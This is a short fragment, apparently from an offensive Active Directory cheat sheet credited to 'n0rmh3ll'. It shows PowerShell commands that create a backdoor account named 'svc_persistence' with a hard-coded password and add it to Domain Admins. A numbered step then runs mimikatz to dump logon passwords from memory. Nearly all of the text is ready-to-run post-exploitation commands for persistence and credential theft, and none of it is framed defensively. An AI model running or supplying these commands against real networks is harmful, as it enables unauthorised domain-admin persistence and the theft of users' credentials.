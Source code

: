 ```bash
New-ADUser -Name "svc_persistence" -SamAccountName "svc_persistence" -AccountPassword (ConvertTo-SecureString "P@ssw0rd1!" -AsPlainText -Force) -Enabled $true
Add-ADGroupMember -Identity "Domain Admins" -Members "svc_persistence"

# 13. Mimikatz dump
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

Credits : n0rmh3ll
